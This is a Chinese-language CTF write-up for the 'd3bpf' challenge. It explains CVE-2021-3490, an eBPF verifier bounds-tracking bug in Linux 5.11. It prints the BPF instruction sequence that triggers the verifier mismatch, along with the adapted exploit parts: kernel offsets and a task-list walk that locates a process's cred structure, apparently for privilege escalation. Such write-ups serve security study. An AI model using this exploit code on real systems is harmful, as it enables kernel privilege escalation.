 ## [PWN] d3bpf
题目使用的 linux 5.11 存在 CVE-2021-3490 漏洞，刚好看过安全客上这个CVE的[分析文章](https://www.anquanke.com/post/id/251933#h2-1)，作者也给了exp，所以直接改了exp里的偏移打通了。

漏洞成因是AND/OR/XOR指令在处理32位寄存器时没有正确设置有无符号的min和max值。
adjust_scalar_min_max_vals在更新边界时，会调用scalar32_min_max_and和scalar_min_max_and分别更新32位和64位边界，但是开发者错误地假设了处理64位的scalar_min_max_and的__mark_reg_known(dst_reg, dst_reg->var_off.value);会帮32位更新边界，因此没有在32位的scalar32_min_max_and里写边界更新函数。

但实际上，64位的scalar_min_max_and会使用__mark_reg_known更新32位边界的条件是，src和dst都是64位数，因此，32位的dst_reg并没有更新边界。这导致32位的dst_reg的边界是计算前的值，而非计算后的值。
```
        BPF_LD_IMM64(BPF_REG_8, 0x1),					// 2: (18) r8 = 0x1
        BPF_ALU64_IMM(BPF_LSH, BPF_REG_8, 32),			// 4: (67) r8 <<= 32     	0x10000 0000
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_8, 2),			// 5: (07) r8 += 2       	0x10000 0002

        BPF_MAP_GET(0, BPF_REG_5),						// 13: (79) r5 = *(u64 *)(r0 +0)
        BPF_MOV64_REG(BPF_REG_6, BPF_REG_5),			// 15: (bf) r6 = r5

        BPF_LD_IMM64(BPF_REG_2, 0xFFFFFFFF),			// 16: (18) r2 = 0xffffffff
        BPF_ALU64_IMM(BPF_LSH, BPF_REG_2, 32),			// 18: (67) r2 <<= 32 		0xFFFFFFFF00000000
        BPF_ALU64_REG(BPF_AND, BPF_REG_6, BPF_REG_2),	// 19: (5f) r6 &= r2        高32位 unknown, 低32位known 为0
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_6, 1),			// 20: (07) r6 += 1    		mask = 0xFFFFFFFF00000000, value = 0x1
        // trigger the vulnerability
        BPF_ALU64_REG(BPF_AND, BPF_REG_6, BPF_REG_8), 	// 21: (5f) r6 &= r8 		r6: u32_min_value=1, u32_max_value=0

        // BPF_MOV32_REG(BPF_REG_6, BPF_REG_6),			// 26: (bc) w6 = w6 		对64位进行截断，只看32位部分
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_6, 1),			// 22: (07) r6 += 1 		r6: u32_max_value = 1, u32_min_value = 2, var_off = {0x100000000; value = 0x1}
        BPF_JMP32_IMM(BPF_JLE, BPF_REG_5, 1, 1),		// 23: (b6) if w5 <= 0x1 goto pc+1   r5: u32_min_value = 0, u32_max_value = 1, var_off = {mask = 0xFFFFFFFF00000001; value = 0x0}
		BPF_EXIT_INSN(),

		BPF_ALU64_REG(BPF_ADD, BPF_REG_6, BPF_REG_5),	// 25: (0f) r6 += r5 		r6: verify:2   fact:1
		BPF_MOV32_REG(BPF_REG_6, BPF_REG_6),			// 26: (bc) w6 = w6 		对64位进行截断，只看32位部分
		BPF_ALU64_IMM(BPF_AND, BPF_REG_6, 1),			// 		r6: verify:0   fact:1
```
EXP太长就不放了，这里是改动部分：
```c
#define LEAKED  0x10363a0
...
#define INIT_PID_NS  0x1a6b2c0
..
size_t task_addr = read64(init_pid_ns+0x30);
while(1)
	{
		pid_t p = read64(task_addr+0x918);
		printf("iter pid %d ...\n", p);
		if(p == pid)
		{
			puts("got it!");
			cred_addr = read64(task_addr+0xad8);
			break;
		}
		else
		{
			task_addr = read64(task_addr+0x818) - 0x818;
```